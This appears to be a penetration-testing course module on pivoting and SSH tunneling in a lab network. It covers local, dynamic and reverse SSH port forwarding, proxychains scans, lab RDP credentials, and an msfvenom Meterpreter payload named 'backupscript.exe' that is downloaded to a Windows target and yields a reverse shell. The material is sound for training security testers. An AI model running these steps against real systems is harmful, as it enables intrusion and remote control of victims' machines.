



# Pivoting, Tunneling, and Port Forwarding

During a `red team engagement`, `penetration test`, or an `Active Directory assessment`, we will often find ourselves in a situation where we might have already compromised the required `credentials`, `ssh keys`, `hashes`, or `access tokens` to move onto another host, but there may be no other host directly reachable from our attack host. In such cases, we may need to use a `pivot host` that we have already compromised to find a way to our next target. One of the most important things to do when landing on a host for the first time is to check our `privilege level`, `network connections`, and potential `VPN or other remote access software`. If a host has more than one network adapter, we can likely use it to move to a different network segment. **Pivoting** is essentially the idea of `moving to other networks through a compromised host to find more targets on different network segments`.

Pivoting's primary use is to defeat segmentation (both physically and virtually) to access an isolated network. **Tunneling**, on the other hand, is a subset of pivoting. Tunneling encapsulates network traffic into another protocol and routes traffic through it. Think of it like this:

We have a `key` we need to send to a partner, but we do not want anyone who sees our package to know it is a key. So we get a stuffed animal toy and hide the key inside with instructions about what it does. We then package the toy up and send it to our partner. Anyone who inspects the box will see a simple stuffed toy, not realizing it contains something else. Only our partner will know that the key is hidden inside and will learn how to access and use it once delivered.

Typical applications like VPNs or specialized browsers are just another form of tunneling network traffic.

## Networking behind Pivoting

Whether assigned `dynamically` or `statically`, the IP address is assigned to a `Network Interface Controller` (`NIC`). Commonly, the NIC is referred to as a `Network Interface Card` or `Network Adapter`. A computer can have multiple NICs (physical and virtual), meaning it can have multiple IP addresses assigned, allowing it to communicate on various networks. Identifying pivoting opportunities will often depend on the specific IPs assigned to the hosts we compromise because they can indicate the networks compromised hosts can reach. This is why it is important for us to always check for additional NICs using commands like `ifconfig` (in macOS and Linux) and `ipconfig` (in Windows).

The VPN encrypts traffic and also establishes a tunnel over a public network (often the Internet), through **NAT** on a public-facing network appliance, and into the internal/private network. Also, notice the IP addresses assigned to each NIC. The IP assigned to eth0 (`134.122.100.200`) is a publicly routable IP address. Meaning ISPs will route traffic originating from this IP over the Internet.

We will see public IPs on devices that are directly facing the Internet, commonly hosted in DMZs. The other NICs have private IP addresses, which are routable within internal networks but not over the public Internet. At the time of writing, anyone that wants to communicate over the Internet must have at least one public IP address assigned to an interface on the network appliance that connects to the physical infrastructure connecting to the Internet. Recall that NAT is commonly used to translate private IP addresses to public IP addresses.

Every IPv4 address will have a corresponding `subnet mask`. If an IP address is like a phone number, the subnet mask is like the area code. Remember that the subnet mask defines the `network` & `host` portion of an IP address. When network traffic is destined for an IP address located in a different network, the computer will send the traffic to its assigned `default gateway`. The default gateway is usually the IP address assigned to a NIC on an appliance acting as the router for a given LAN. In the context of pivoting, we need to be mindful of what networks a host we land on can reach, so documenting as much IP addressing information as possible on an engagement can prove helpful.

### Routing

It is common to think of a network appliance that connects us to the Internet when thinking about a router, but technically any computer can become a router and participate in routing. Some of the challenges we will face in this module require us to make a pivot host route traffic to another network. One way we will see this is through the use of AutoRoute, which allows our attack box to have `routes` to target networks that are reachable through a pivot host. One key defining characteristic of a router is that it has a routing table that it uses to forward traffic based on the destination IP address. Let's look at this on Pwnbox using the commands `netstat -r` or `ip route`.

```bash
[!bash!]$ netstat -r

Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         178.62.64.1     0.0.0.0         UG        0 0          0 eth0
10.10.10.0      10.10.14.1      255.255.254.0   UG        0 0          0 tun0
10.10.14.0      0.0.0.0         255.255.254.0   U         0 0          0 tun0
10.106.0.0      0.0.0.0         255.255.240.0   U         0 0          0 eth1
10.129.0.0      10.10.14.1      255.255.0.0     UG        0 0          0 tun0
178.62.64.0     0.0.0.0         255.255.192.0   U         0 0          0 eth0
```

When a packet is created and has a destination before it leaves the computer, the routing table is used to decide where to send it. For example, if we are trying to connect to a target with the IP `10.129.10.25`, we could tell from the routing table where the packet would be sent to get there. It would be forwarded to a `Gateway` out of the corresponding NIC (`Iface`). Pwnbox is not using any routing protocols (EIGRP, OSPF, BGP, etc...) to learn each of those routes. It learned about those routes via its own directly connected interfaces (eth0, eth1, tun0). Stand-alone appliances designated as routers typically will learn routes using a combination of static route creation, dynamic routing protocols, and directly connected interfaces. Any traffic destined for networks not present in the routing table will be sent to the `default route`, which can also be referred to as the default gateway or gateway of last resort. When looking for opportunities to pivot, it can be helpful to look at the hosts' routing table to identify which networks we may be able to reach or which routes we may need to add.

## Dynamic Port Forwarding with SSH and SOCKS Tunneling

**Port forwarding** is a technique that allows us to redirect a communication request from one port to another. Port forwarding uses TCP as the primary communication layer to provide interactive communication for the forwarded port. However, different application layer protocols such as SSH or even SOCKS (non-application layer) can be used to encapsulate the forwarded traffic. This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.

### SSH Local Port Forwarding



We have our attack host (10.10.15.x) and a target Ubuntu server (10.129.x.x), which we have compromised. We will scan the target Ubuntu server using Nmap to search for open ports.

#### Scanning the Pivot Target

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
nmap -sT -p22,3306 10.129.202.64

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:12 EST
Nmap scan report for 10.129.202.64
Host is up (0.12s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
3306/tcp closed mysql

Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
```

The Nmap output shows that the SSH port is open. To access the MySQL service, we can either SSH into the server and access MySQL from inside the Ubuntu server, or we can port forward it to our localhost on port `1234` and access it locally. A benefit of accessing it locally is if we want to execute a remote exploit on the MySQL service, we won't be able to do it without port forwarding. This is due to MySQL being hosted locally on the Ubuntu server on port `3306`. So, we will use the below command to forward our local port (1234) over SSH to the Ubuntu server.

#### Executing the Local Port Forward

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

ubuntu@10.129.202.64's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 24 Feb 2022 05:23:20 PM UTC

  System load:             0.0
  Usage of /:              28.4% of 13.72GB
  Memory usage:            34%
  Swap usage:              0%
  Processes:               175
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

66 updates can be applied immediately.
45 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
```

The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port `1234` to `localhost:3306` on the Ubuntu server. By doing this, we should be able to access the MySQL service locally on port 1234. We can use Netstat or Nmap to query our local host on 1234 port to verify whether the MySQL service was forwarded.

#### Confirming Port Forward with Netstat

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
netstat -antp | grep 1234

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:1234          0.0.0.0:*               LISTEN      4034/ssh            
tcp6       0      0 ::1:1234                :::*                    LISTEN      4034/ssh     
```

#### Confirming Port Forward with Nmap

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
nmap -v -sV -p1234 localhost

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:18 EST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 12:18
Scanning localhost (127.0.0.1) [2 ports]
Completed Ping Scan at 12:18, 0.01s elapsed (1 total hosts)
Initiating Connect Scan at 12:18
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 1234/tcp on 127.0.0.1
Completed Connect Scan at 12:18, 0.01s elapsed (1 total ports)
Initiating Service scan at 12:18
Scanning 1 service on localhost (127.0.0.1)
Completed Service scan at 12:18, 0.12s elapsed (1 service on 1 host)
NSE: Script scanning 127.0.0.1.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.01s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0080s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
```

Similarly, if we want to forward multiple ports from the Ubuntu server to your localhost, you can do so by including the `local port:server:port` argument to your ssh command. For example, the below command forwards the apache web server's port 80 to your attack host's local port on `8080`.

#### Forwarding Multiple Ports

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
matmarqx@htb[/htb]$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

-------------------
### Setting up to Pivot

Now, if you type `ifconfig` on the Ubuntu host, you will find that this server has multiple NICs:

*   One connected to our attack host (`ens192`)
*   One communicating to other hosts within a different network (`ens224`)
*   The loopback interface (`lo`).

#### Looking for Opportunities to Pivot using ifconfig

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
ubuntu@WEB01:~$ ifconfig 

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.202.64  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:52:eb  txqueuelen 1000  (Ethernet)
        RX packets 35571  bytes 177919049 (177.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10452  bytes 1474767 (1.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb9:a9aa  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a9:aa  txqueuelen 1000  (Ethernet)
        RX packets 8251  bytes 1125190 (1.1 MB)
        RX errors 0  dropped 40  overruns 0  frame 0
        TX packets 1538  bytes 123584 (123.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 270  bytes 22432 (22.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 270  bytes 22432 (22.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Unlike the previous scenario where we knew which port to access, in our current scenario, we don't know which services lie on the other side of the network. So, we can scan smaller ranges of IPs on the network (`172.16.5.1-200`) network or the entire subnet (`172.16.5.0/23`). We cannot perform this scan directly from our attack host because it does not have routes to the `172.16.5.0/23` network. To do this, we will have to perform `dynamic port forwarding` and `pivot` our network packets via the Ubuntu server. We can do this by starting a `SOCKS listener` on our `local host` (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host.

This is called `SSH tunneling` over `SOCKS proxy`. SOCKS stands for `Socket Secure`, a protocol that helps communicate with servers where you have firewall restrictions in place. Unlike most cases where you would initiate a connection to connect to a service, in the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.

This technique is often used to circumvent the restrictions put in place by firewalls, and allow an external entity to bypass the firewall and access a service within the firewalled environment. One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from `NAT networks`. SOCKS proxies are currently of two types: `SOCKS4` and `SOCKS5`. SOCKS4 doesn't provide any authentication and UDP support, whereas SOCKS5 does provide that. Let's take an example of the below image where we have a NAT'd network of 172.16.5.0/23, which we cannot access directly.


In the above image, the attack host starts the SSH client and requests the SSH server to allow it to send some TCP data over the ssh socket. The SSH server responds with an acknowledgment, and the SSH client then starts listening on `localhost:9050`. Whatever data you send here will be broadcasted to the entire network (172.16.5.0/23) over SSH. We can use the below command to perform this dynamic port forwarding.

#### Enabling Dynamic Port Forwarding with SSH

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

The `-D` argument requests the SSH server to enable dynamic port forwarding. Once we have this enabled, we will require a tool that can route any tool's packets over the port `9050`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows us to chain multiple proxy servers together. Using proxychains, we can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host. Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.

#### Checking `/etc/proxychains.conf`

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

Now when you start Nmap with proxychains using the below command, it will route all the packets of Nmap to the local port 9050, where our SSH client is listening, which will forward all the packets over SSH to the `172.16.5.0/23` network.

#### Using Nmap with Proxychains

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
proxychains nmap -v -sn 172.16.5.1-200

ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:30 EST
Initiating Ping Scan at 12:30
Scanning 10 hosts [2 ports/host]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.2:80-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.5:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.6:80-<--timeout
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0

<SNIP>
```

This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called `SOCKS tunneling`. One more important note to remember here is that we can only perform a `full TCP connect scan` over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. We also need to make sure we are aware of the fact that `host-alive` checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.

[A full TCP connect scan](https://nmap.org/book/scan-methods-connect-scan.html) without ping on an entire network range will take a long time. So, for this module, we will primarily focus on scanning individual hosts, or smaller ranges of hosts we know are alive, which in this case will be a Windows host at `172.16.5.19`.

We will perform a remote system scan using the below command.

#### Enumerating the Windows Target through Proxychains

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
proxychains nmap -v -Pn -sT 172.16.5.19

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:33 EST
Initiating Parallel DNS resolution of 1 host. at 12:33
Completed Parallel DNS resolution of 1 host. at 12:33, 0.15s elapsed
Initiating Connect Scan at 12:33
Scanning 172.16.5.19 [1000 ports]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:1720-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:587-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:445-<><>-OK
Discovered open port 445/tcp on 172.16.5.19
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:8080-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:23-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:135-<><>-OK
Discovered open port 135/tcp on 172.16.5.19
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:110-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:21-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:554-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-1172.16.5.19:25-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:5900-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:1025-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:143-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:199-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:993-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:995-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:443-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:113-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:8888-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:139-<><>-OK
Discovered open port 139/tcp on 172.16.5.19
```
    

The Nmap scan shows several open ports, one of which is `RDP port` (3389). Similar to the Nmap scan, we can also pivot `msfconsole` via proxychains to perform vulnerable RDP scans using Metasploit auxiliary modules. We can start msfconsole with proxychains.

---------------------------------

### Using Metasploit with Proxychains

We can also open Metasploit using proxychains and send all associated traffic through the proxy we have established.

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
proxychains msfconsole
ProxyChains-3.1 (http://proxychains.sf.net)
msf6 > 
```

Let's use the `rdp_scanner` auxiliary module to check if the host on the internal network is listening on 3389.

#### Using `rdp\_scanner` Module

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
msf6 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/rdp/rdp_scanner

msf6 > use 0
msf6 auxiliary(scanner/rdp/rdp_scanner) > set rhosts 172.16.5.19
rhosts => 172.16.5.19
msf6 auxiliary(scanner/rdp/rdp_scanner) > run
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK

[*] 172.16.5.19:3389      - Detected RDP on 172.16.5.19:3389      (name:DC01) (domain:DC01) (domain_fqdn:DC01) (server_fqdn:DC01) (os_version:10.0.17763) (Requires NLA: No)
[*] 172.16.5.19:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

At the bottom of the output above, we can see the RDP port open with the Windows OS version.

Depending on the level of access we have to this host during an assessment, we may try to run an exploit or log in using gathered credentials. For this module, we will log in to the Windows remote host over the SOCKS tunnel. This can be done using `xfreerdp`. The user in our case is `victor,` and the password is `pass@123`

#### Using xfreerdp with Proxychains

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

The xfreerdp command will require an RDP certificate to be accepted before successfully establishing the session. After accepting it, we should have an RDP session, pivoting via the Ubuntu server.

#### Successful RDP Pivot




## Remote/Reverse Port Forwarding with SSH

We have seen local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host. But sometimes, we might want to forward a local service to the remote port as well. Let's consider the scenario where we can RDP into the Windows host `Windows A`. As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.



`But what happens if we try to gain a reverse shell?`

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

Remote/Reverse Port Forwarding with SSH

    matmarqx@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 712 bytes
    Final size of exe file: 7168 bytes
    Saved as: backupscript.exe
    

#### Configuring & Starting the multi/handler

Remote/Reverse Port Forwarding with SSH

    msf6 > use exploit/multi/handler
    
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8000
    lport => 8000
    msf6 exploit(multi/handler) > run
    
    [*] Started HTTPS reverse handler on https://0.0.0.0:8000
    

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host

Remote/Reverse Port Forwarding with SSH

    matmarqx@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
    
    backupscript.exe                                   100% 7168    65.4KB/s   00:00 
    

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

Remote/Reverse Port Forwarding with SSH

    ubuntu@Webserver$ python3 -m http.server 8123
    

#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

Remote/Reverse Port Forwarding with SSH

    PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
    

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

#### Using SSH -R

Remote/Reverse Port Forwarding with SSH

    matmarqx@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
    

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

#### Viewing the Logs from the Pivot

Remote/Reverse Port Forwarding with SSH

    ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
    debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
    debug1: channel 1: new [172.16.5.19]
    debug1: confirm forwarded-tcpip
    debug1: channel 0: free: 172.16.5.19, nchannels 2
    debug1: channel 1: connected to 0.0.0.0 port 8000
    debug1: channel 1: free: 172.16.5.19, nchannels 1
    debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
    debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
    debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
    debug1: channel 0: new [172.16.5.19]
    debug1: confirm forwarded-tcpip
    debug1: channel 0: connected to 0.0.0.0 port 8000
    

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

#### Meterpreter Session Established

Remote/Reverse Port Forwarding with SSH

    [*] Started HTTPS reverse handler on https://0.0.0.0:8000
    [!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
    [*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
    [!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500
    
    meterpreter > shell
    Process 3236 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.17763.1637]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\>
    

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.


